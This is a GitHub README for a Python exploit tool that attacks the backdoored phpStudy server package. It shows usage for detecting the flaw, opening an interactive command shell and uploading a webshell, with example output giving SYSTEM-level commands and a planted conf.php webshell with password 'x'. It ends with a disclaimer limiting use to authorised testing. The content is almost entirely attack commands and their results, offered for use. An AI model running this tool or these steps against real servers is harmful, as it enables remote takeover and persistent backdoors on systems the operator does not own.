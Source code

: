 # phpstudy-backdoor-rce
phpstudy_rce exp &amp; poc
> phpstudy backdoor rce exp &amp; poc

- usage:
```python
python phpstudy_rce.py                                   
usage: python phpstudy_rce.py -u [url] --shell

PHPstudy RCE POC & EXP

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定目标url地址
  --shell               利用漏洞并获取命令行
  --webshell            利用漏洞并上传webshell
  -p PROXY, --proxy PROXY
                        设置代理，如socks5://127.0.0.1:7890

```

- example:
```python
# poc
python phpstudy_rce.py -u http://xxxx/           
[✅]存在漏洞

# exp - 获取shell
python phpstudy_rce.py -u http://xxxx/ --shell       
[✅]存在漏洞
cmd>>> whoami
nt authority\system
cmd>>> net user
User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    
The command completed with one or more errors.

cmd>>> exit

# exp - 写入webshell
python phpstudy_rce.py -u http://xxxx/ --webshell
[✅]存在漏洞
[✅]获取到网站路径 C:/phpStudy/WWW/
[✅]写入webshell成功 http://xxxx/conf.php 连接密码 x

# proxy
python phpstudy_rce.py -u http://xxxx/ -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --shell -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --webshell -p socks5://127.0.0.1:7890
```

- 参考链接
  - https://github.com/theLSA/phpstudy-backdoor-rce
  - https://blog.csdn.net/qq_45521281/article/details/105926151
  
- 使用须知
  - 本工具仅面向合法授权的企业安全建设行为，在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。
  - 如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果。
 
 
## Stargazers over time

[![Stargazers over time](https://starchart.cc/ajisai-babu/phpstudy-backdoor-rce.svg)](https://starchart.cc/ajisai-babu/phpstudy-backdoor-rce)


